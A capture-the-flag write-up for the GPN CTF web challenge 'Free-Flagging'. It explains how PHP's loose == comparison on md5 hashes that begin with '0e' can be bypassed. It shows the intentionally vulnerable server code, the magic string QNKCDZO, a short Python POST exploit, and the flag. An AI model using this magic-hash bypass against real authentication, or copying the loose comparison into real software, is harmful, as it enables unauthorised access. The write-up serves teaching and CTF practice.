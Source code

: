 # Free-Flagging

## Challenge Summary

- **Category**: Web
- **Points**: 75
- **Solves**: 125 teams

---

### Problem Description

> "You reached Free Parking" - sadly we ran out of money, but here have a free flag instead.

---

## Challenge Structure

- The server accepts `POST` requests and compares the `md5` hash of the provided input with the `md5` hash of the flag.
- If they match using `==`, the server returns the flag.
- The key vulnerability here is how PHP's `==` operator performs loose comparison.

---

## Exploitation Flow

### Step 1: Bypassing with PHP loose comparison

The vulnerability lies in how PHP performs comparisons using the `==` operator.

Here’s the relevant part of the server code:

```php
<?php
if ($_SERVER['REQUEST_METHOD'] !== 'POST') {
    highlight_file(__FILE__);
    exit;
}

$flag = getenv("FLAG");
$guess = file_get_contents('php://input');

// Check if user knows the flag
if (md5($flag) == md5($guess)) {
    echo("You correctly guessed the flag - " . $flag);
} else {
    echo("You guessed wrong: The flags hash is " . md5($flag) . " and the hash of your guess is " . md5($guess));
}
?>
```

PHP uses **loose comparison (`==`)**, which means it performs type juggling.  
If both `md5($flag)` and `md5($guess)` start with `"0e..."`, PHP interprets them as scientific notation floats like `0e12345`, resulting in `true` even if the strings differ.

---

### Step 2: Finding a magic string

We can use a known magic string like `"QNKCDZO"` whose `md5` hash starts with `"0e..."` and triggers the loose comparison:

```php
md5("QNKCDZO") = "0e830400451993494058024219903391"
```

This means that `md5($flag) == md5($guess)` can return `true` even if the strings are different.

---

### Step 3: Exploiting the server

With the magic string identified ("QNKCDZO"), we simply send a POST request to the server using that value as the body. Since the hash comparison evaluates to true, the server returns the actual flag.

Python exploit script:

```python
import requests

url = "https://grandtown-of-charged-liberty.gpn23.ctf.kitctf.de/"
magic = "QNKCDZO"

print(requests.post(url, data=magic).text)
```

---

## Flag

```
You correctly guessed the flag - GPNCTF{just_php_d01ng_php_th1ng5_abM2zz}
```
